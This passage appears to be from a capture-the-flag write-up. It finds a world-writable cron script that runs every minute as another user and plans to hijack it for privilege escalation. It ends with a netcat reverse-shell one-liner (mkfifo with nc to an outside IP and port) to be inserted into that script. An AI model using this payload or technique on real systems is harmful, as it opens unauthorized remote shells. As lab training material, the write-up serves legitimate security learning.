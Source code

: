 ```bash
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   munojr  /opt/munoupdate.sh
#
batman@owaspQuiz:/home/munojr$ 
```
Interesting there is a script in crontab which runs in every minute and it has named as `munoupdate.sh`

Lets read the file permission and check if we can write it.

```
batman@owaspQuiz:/home/munojr$ ls -l /opt/munoupdate.sh 
-rwxr-xrwx 1 munojr munojr 845 May 13 15:05 /opt/munoupdate.sh
```

`Bravo` we can write on the script then lets read first before changing it.
```bash
batman@owaspQuiz:/home/munojr$ cat  /opt/munoupdate.sh 

#!/bin/bash
startupdate() {
    
                echo
                echo "-----------------------------------------"
                echo ">>> Command Execting Was Successful.  <<<" 
                echo "-----------------------------------------"
                echo
}
start() {
            echo
            echo "***>>> Updating The Operating System <<<***"
            echo         
}
exitUpdate() {
            echo
            echo "-------------------------------------------------------"
            echo ">>>    Operating System Update Has Been Completed   <<<"
            echo "-------------------------------------------------------"
            echo
            exit 1
}
#calls the functions
start
startupdate
exitUpdate
```


We can use the payload  from penetester monkey and listen for the munojr shell in my case i changed to the following.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.11.230 1122 >/tmp/f
```
